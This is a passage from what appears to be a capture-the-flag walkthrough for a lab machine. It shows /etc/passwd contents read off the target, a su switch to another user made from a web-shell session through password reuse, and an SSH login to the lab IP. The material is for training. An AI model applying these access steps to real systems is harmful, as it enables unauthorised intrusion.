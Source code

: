 ```c
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

| Username   |
| ---------- |
| jobert     |
| johncusack |

## Privilege Escalation to johncusack

### Password Reuse

Another `password reuse` allowed us to switch the session directly to `johncusack` and therefore we were able to use `SSH` to gain a proper shell.

```c
www-data@dog:/var/www/html/modules/shell$ su johncusack
Password: 
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
sh: 0: getcwd() failed: No such file or directory
johncusack@dog:/var/www/html/modules/shell$
```

```c
┌──(kali㉿kali)-[~]
└─$ ssh johncusack@10.129.47.82
The authenticity of host '10.129.47.82 (10.129.47.82)' can't be established.
ED25519 key fingerprint is SHA256:M3A+wMdtWP0tBPvp9OcRf6sPPmPmjfgNphodr912r1o.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:121: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.47.82' (ED25519) to the list of known hosts.
johncusack@10.129.47.82's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 08 Mar 2025 07:53:20 PM UTC

  System load:           0.93
  Usage of /:            49.3% of 6.32GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             235
  Users logged in:       0
  IPv4 address for eth0: 10.129.47.82
  IPv6 address for eth0: dead:beef::250:56ff:fe94:dde5


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
```